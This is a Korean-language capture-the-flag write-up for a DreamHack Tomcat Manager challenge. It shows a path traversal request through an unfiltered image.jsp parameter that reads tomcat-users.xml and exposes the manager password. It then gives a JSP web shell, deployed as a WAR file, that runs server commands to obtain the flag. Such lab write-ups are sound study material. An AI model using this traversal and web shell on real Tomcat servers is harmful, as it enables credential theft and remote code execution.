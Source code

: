 # [DreamHack] Tomcat Manager

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 드림이가 톰캣 서버로 개발을 시작하였습니다.
> 서비스의 취약점을 찾아 플래그를 획득하세요.
> 플래그는 `/flag` 경로에 있습니다.
>
> Release: [Tomcat Manager.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8567082/Tomcat.Manager.zip)

## Analysis

### index.jsp

```jsp
<html>
<body>
    <center>
        <h2>Under Construction</h2>
        <p>Coming Soon...</p>
        <img src="./image.jsp?file=working.png"/>
    </center>
</body>
</html>
```

홈 페이지(`index.jsp`)에 접속하면 Under Construction, Coming Soon이라는 메시지가 뜨고, `./image.jsp?file=working.png`에 요청을 보내서 이미지를 불러온다.

![image](https://user-images.githubusercontent.com/104156058/165413680-7aa21275-1b7e-4b8d-a4cc-fc26442b202b.png)

### image.jsp

```jsp
<%@ page trimDirectiveWhitespaces="true" %>
<%
String filepath = getServletContext().getRealPath("resources") + "/";
String _file = request.getParameter("file");

response.setContentType("image/jpeg");
try{
    java.io.FileInputStream fileInputStream = new java.io.FileInputStream(filepath + _file);
    int i;   
    while ((i = fileInputStream.read()) != -1) {  
        out.write(i);
    }   
    fileInputStream.close();
}catch(Exception e){
    response.sendError(404, "Not Found !" );
}
%>
```

`image.jsp`는 서버에 있는 파일의 내용을 읽어서 이미지로 반환한다. 파일 이름은 `request.getParameter("file")`로 가져오는데, 아무런 필터링이 없어서 path traversal 취약점이 발생한다.

## Exploit

### Get manager passwod

문제에서 주어진 `tomcat-users.xml` 파일을 보면, manager 기능이 활성화되어 있지만 권한이 있는 유저인 `tomcat`의 패스워드는 지워져 있다. `Dockerfile`을 보면 `tomcat-users.xml` 의 full path가 `/usr/local/tomcat/conf/tomcat-users.xml`인 것을 알 수 있다. `image.jsp`에서 발생하는 path traversal 취약점을 이용해서 이 파일의 내용을 읽어올 수 있다.

`/image.jsp?file=../../../../../../../../usr/local/tomcat/conf/tomcat-users.xml`로 접속하면 다음의 응답을 받을 수 있다.

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: image/jpeg;charset=ISO-8859-1
Content-Length: 659
Date: Wed, 27 Apr 2022 00:16:52 GMT
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="P2assw0rd_4_t0mC2tM2nag3r31337" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />  
</tomcat-users>
```

`tomcat`의 패스워드는 `P2assw0rd_4_t0mC2tM2nag3r31337`이다.

### Deploy web shell

Tomcat manager의 deploy 기능을 이용하면 임의의 `jsp` 코드가 서버에서 실행되도록 할 수 있다.

```jsp
<%@ page language="java" import= "java.io.*, java.util.*, java.net.* " contentType="text/html;charset=EUC-KR" session="false" %>

<%
    String bashCommand[] = {"ls", "-al", "/"};

    int lineCount = 0;
    String line = "";

    ProcessBuilder builder = new ProcessBuilder(bashCommand);
    Process childProcess = null;

    childProcess = builder.start();
    
    BufferedReader br = new BufferedReader(new InputStreamReader(new SequenceInputStream(childProcess.getInputStream(), childProcess.getErrorStream())));
    
    while ((line = br.readLine()) != null) {
%>
<%=line%><br>
<%
    }

    br.close();
%>
```

위의 `jsp` 코드는 서버에서 `bashCommand`를 실행한 결과를 출력하는 코드이다. [https://wnsgml972.github.io/linux/2018/08/03/linux_shellscript/](https://wnsgml972.github.io/linux/2018/08/03/linux_shellscript/)의 코드를 참고해서 작성하였다. 이 코드를 `FLAG.war`라는 이름의 파일로 압축하여 deploy한다.

![image](https://user-images.githubusercontent.com/104156058/165421313-e2c4895d-2f07-4c4a-b3e7-f0ff09c7da04.png)

![image](https://user-images.githubusercontent.com/104156058/165421387-1153c272-f31f-425f-afe8-64472db98003.png)

그리고 나서 `/FLAG`로 접속해보면

![image](https://user-images.githubusercontent.com/104156058/165421434-ab7aff0b-84c4-4955-90e8-ce7d69a70658.png)

서버의 `/` 디렉토리의 파일 목록을 확인할 수 있다. `flag` 파일이 있는데, 읽기 권한은 없고 실행 권한만 있다. 그냥 path traversal 취약점으로 플래그 파일의 내용을 읽어오는 것을 막기 위한 것 같다.

위의 `jsp` 파일에서 `String bashCommand[] = {"ls", "-al", "/"};`를 `String bashCommand[] = {"/flag"};`로 수정하여 다시 deploy한 후, `/FLAG`에 접속해보면

![image](https://user-images.githubusercontent.com/104156058/165421656-cd67bf84-3796-49cd-a3e6-d49cf5294584.png)

플래그를 획득할 수 있다.

```
flag: DH{a2062e589d0b1d627cf999066fb6c335ffe89ab85e81d7b7d91dd64e8f59d505}
```